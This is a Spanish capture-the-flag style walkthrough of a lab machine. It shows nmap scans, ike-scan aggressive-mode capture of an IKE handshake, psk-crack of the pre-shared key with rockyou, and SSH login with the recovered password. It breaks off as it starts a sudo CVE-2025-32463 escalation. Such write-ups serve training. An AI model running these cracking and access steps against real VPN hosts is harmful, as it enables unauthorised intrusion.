 
## Enumeración
Empezaremos realizando un escaneo con [[NMAP]] en el cual encontramos abierto el puerto `22/tcp` y el puerto `500/udp`
`nmap -sSCV -p- --open --min-rate 5000 -n -Pn -vvv <IP>`
`nmap -sU -p- --open --min-rate 5000 -n -Pn -vvv <IP>`

En el puerto `500` hay un servicio `ISAKMP Internet Security Association and Key Management Protocol`
Usaremos [[IKE-SCAN]] es una utilidad de línea de comandos para descubrir, identificar (fingerprint) y recopilar información de hosts que hablan IKE (Internet Key Exchange)

Ejecutaremos el siguiente comando:
`ike-scan --aggressive --pskcrack=psk.params`
`--aggresive` -> Envía identidades y parámetros en los primeros mensajes, sin esperar un handshake completo.
`--pskcrack` -> Captura el handshake en Aggressive Mode y lo guarda en `psk.params`

Usaremos [[PSK-CRACK]] Su objetivo principal es intentar adivinar la Pre-Shared Key (PSK)
`psk-crack -d /usr/share/wordlists/rockyou.txt psk.params`
Con `-d` seleccionaremos la wordlist y a continuación le pasaremos el archivo generado anteriormente.

Nos devolverá la password,(key):
`key "freakingrockstarontheroad" matches SHA1 hash 9acd999de926d953c088daf7b69efcfdecbd1893`

El hash lo guardamos en un fichero llamado hash.

Y usamos la herramienta de [[JOHN THE RIPPER]] con el siguiente comando:
`ikescan2john hash`

Y descubrimos que hay usuario `ike`

Accedemos a el por SSH con las credenciales `ike::freakingrockstarontheroad`

## Escalada de privilegios

Si ejecutamos `sudo -l` vemos que nos tenemos permisos de root para nada.
Vemos que la versión de sudo es vulnerable `sudo --version` vemos que es una `1.9.17p1` y que es vulnerable al `CVE-2025-32463`

Nos crearemos un fichero llamado `privesc`


